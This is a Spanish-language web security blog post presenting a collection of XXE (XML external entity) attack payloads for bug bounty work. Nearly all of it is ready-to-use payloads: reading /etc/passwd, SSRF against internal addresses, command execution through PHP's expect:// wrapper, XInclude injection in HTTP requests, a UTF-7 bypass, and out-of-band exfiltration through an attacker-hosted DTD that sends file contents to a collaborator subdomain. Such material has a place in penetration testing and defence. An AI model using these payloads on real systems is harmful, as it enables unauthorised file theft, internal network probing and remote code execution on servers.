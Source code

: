 ```yaml
---
layout: post
title:  "XXE Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/158905099-e3bd6d01-a91d-486b-8d64-db4dd55f97cd.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Algo metodos de inyectar una XXE.

# Table of Contents
1. [Peligros en los ataques XXE](#PeligrosXXE)
2. [Payloads](#XXEpayloads)<br>
   2.1. [XXE a LFI](#XXEaLFI)<br>
   2.2. [XXE a SSRF](#XXEaSSRF)<br>
   2.3. [XXE a RCE](#XXEaRCE)
6. [Blind en peticion](#BlindXXE)
7. [Bypass XXE](#XXEBypass)
8. [Out-Of-Band](#OutOFBand)

---

### 1- Peligros en los ataques XXE <a name="PeligrosXXE"></a>
- **Enumerar puertos y dominios en direcciones internas a la red:**<br>
A través de las peticiones ir enumerando la red<br>
Ejemplo: 
[XXE a SSRF](#XXEaSSRF)

- **Enumerar puertos abiertos en otras direcciones extrernas**<br>
 Hacer una enumeracion de puertos mediante peticiones.
 
- **Exfiltrar informacion critica:**<br>
Seria posible obtener archivos internos del servidor incluso en servicios de la red local, lo cual es peligroso.<br>
Ejemplo: 
[XXE a LFI](#XXEaLFI)
- **Denegacion del servicio**
- **Ejecutar codigo:** <br>
Si el servidor dispone del modulo "expect" de PHP, seria posible ejecutar codigo y poder llegar a poder ejecutar comandos.<br>
Ejemplo: 
[XXE a RCE](#XXEaRCE)

---
### 2- XXE payloads <a name="XXEpayloads"></a>
**2.1- LFI Test** <a name="XXEaLFI"></a><br>
Ver archivos internos del servidor

```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

**2.2- XXE a SSRF** <a name="XXEaSSRF"></a><br>
Enumerar la red local del servidor
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://192.168.0.1">]>
<foo>&xxe;</foo>
```

**2.3-XXE a RCE** <a name="XXEaRCE"></a><br>
Abusando del modulo expect de php(Se requiere tener este modulo en el servidor)**
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
    <checkproduct>
       <productId>&xxe;</productId>
       <storeId>2</storeId>
    </checkproduct>
```

---

### 3- XXE blind en peticion <a name="BlindXXE"></a>
**3.1- Ver si existe una XXE sin que se vea en la peticion**

Una forma de identificar una XML blind en una petición: Si la aplicación incrusta los datos enviados en un documento XML y luego se analiza el documento como pasa en una solicitud SOAP de backend. Podemos probar a inyectar XInclude que es una parte de la especificación XML que permite crear un documento XML a partir de subdocumentos.<br>
Ejemplo:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>



    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

 **3.2- Tambien se podria usar esto en caso de que sea blind**
 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="http://web-atacante.com"/></foo>&storeId=1
```

**3.3- Blind XXE test (Cuando no devuelve valores)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://subdominio.burpcolaborator.net/?%xxe;">]>
<foo>&blind;</foo>
```
---
### 4- XXE bypass <a name="XXEBypass"></a>
**4.1- XXE UTF-7**

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://web-atacante.com+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

**4.2- Access Control bypass (cargando datos confidenciales)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY cargar SYSTEM "php://filter/read=convert.base64-encode/resource=http://web-vulnerable.com/config.php">]>
<foo><result>&cargar;</result></foo>
```

---

### 5- Ataques XXE Out-Of-Band: <a name="OutOFBand"></a>

**5.1- EJEMPLO 1**
- Se inyecta en el valor &xxe; en uno de los valores xml que se envian
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://web-atacante.com"> ]>
```

**5.2- EJEMPLO 2**
- Payload que incluiremos completo en el valor xml que se envia. Hará una peticion a la web del atacante, asi podremos saber si realmente procesa la informacion que le mandamos.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com"> %xxe; ]>
```

**5.3- EJEMPLO 3**
- Este codigo es de http://web-atacante.com/cositas.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://subdominio.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

- Inyeccion XML antes de los valores de la pagina, inyectará el codigo de cositas.dtd en la pagina

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**5.4- EJEMPLO 4**
- XXE BLIND basado en mensaje de error
- Este codigo es de http://web-atacante.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///estonoexiste/%file;'>">
%eval;
%error;
```

- Inyeccion XML en la pagina, inyectará el codigo de cositas.dtd 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**5.5- EJEMPLO 5**
- Explotando una XXE abusando de los archivos DTD del sistema, en el archivo llama a ISOamso, usaremos esa variable para explotar la XXE creando un xml personalizado que realice la funcion de llamar al archivo de /etc/passwd que es el objetivo. 

```xml
<!DOCTYPE foo [<!ENTITY % el_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"><!ENTITY % ISOamso '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"><!ENTITY &#x25; variable "<!ENTITY &#x26;#x25; errormensaje SYSTEM &#x27;file:///estonoexiste/&#x25;file;&#x27;>">&#x25;variable; &#x25;errormensaje;'>%el_dtd;]>
```
